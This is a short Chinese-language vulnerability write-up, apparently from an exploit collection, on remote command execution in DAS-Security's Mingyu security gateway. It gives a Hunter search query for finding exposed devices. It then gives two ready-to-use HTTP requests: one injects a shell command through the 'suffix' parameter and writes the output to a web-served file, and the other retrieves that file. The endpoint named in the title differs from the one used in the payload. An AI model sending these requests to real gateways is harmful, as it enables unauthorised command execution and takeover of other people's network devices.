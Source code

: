 # 安恒明御安全网关aaa_local_web_custom_auth_html_submit存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_local_web_custom_auth_html_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/jAKWW4JqUQbjCmHl/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-523650.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd.png](./img/jAKWW4JqUQbjCmHl/1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd-711461.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405938768-9fa01d85-610c-4b95-a221-8a3363171080.png](./img/jAKWW4JqUQbjCmHl/1703405938768-9fa01d85-610c-4b95-a221-8a3363171080-296297.png)



> 更新: 2024-07-17 17:29:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rdf0zo1tk2wbzg3g>
